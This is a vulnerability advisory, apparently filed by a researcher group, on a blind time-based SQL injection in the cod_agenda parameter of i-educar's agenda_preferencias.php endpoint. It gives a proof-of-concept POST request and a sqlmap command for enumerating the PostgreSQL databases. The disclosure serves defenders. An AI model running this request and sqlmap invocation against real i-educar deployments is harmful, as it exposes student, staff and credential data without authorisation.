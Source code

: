 # SQL Injection (Blind Time-Based) Vulnerability in cod_agenda Parameter on agenda_preferencias.php Endpoint

---

## Summary

A SQL Injection vulnerability was identified in the `agenda_preferencias.php` endpoint of the _i-educar_ application, specifically in the `cod_agenda` parameter. This vulnerability allows attackers to execute arbitrary SQL commands on the backend database, potentially compromising the confidentiality, integrity, and availability of application data.

---

## Details

**Vulnerable Endpoint:** `/agenda_preferencias.php`  
**Parameter:** `cod_agenda`

The application fails to properly validate and sanitize user input in the `cod_agenda` parameter. As a result, attackers can inject crafted SQL payloads that are executed directly by the database. This could allow database enumeration, data exfiltration, modification, or denial of service via time-based delays.

---
## PoC

Save the request in req.txt file:

```
POST /intranet/agenda_preferencias.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/intranet/agenda_preferencias.php
Cookie: [COOKIE]
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

tipoacao=Editar&cod_agenda=2&envia_alerta=0&agenda_display=2

```

Then use sqlmap:  
`sqlmap -r req.txt --risk=3 --level=5 --dbs --dbms=PostgreSQL --batch `

![[Pasted image 20250816232357.png]]

## Impact

- **Unauthorized data access:** Retrieving sensitive information such as credentials, personal data, or configuration details
    
- **Database enumeration:** Extracting schema names, tables, and column structures
    
- **Data manipulation:** Inserting, updating, or deleting database records
    
- **Denial of Service (DoS):** Using time-based injections to disrupt application availability
    
- **Potential privilege escalation or RCE:** Depending on the database configuration and functions available
    

This vulnerability can lead to full compromise of the database and expose sensitive application and user data.

## Discoverer

[Marcelo Queiroz](www.linkedin.com/in/marceloqueirozjr)

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)
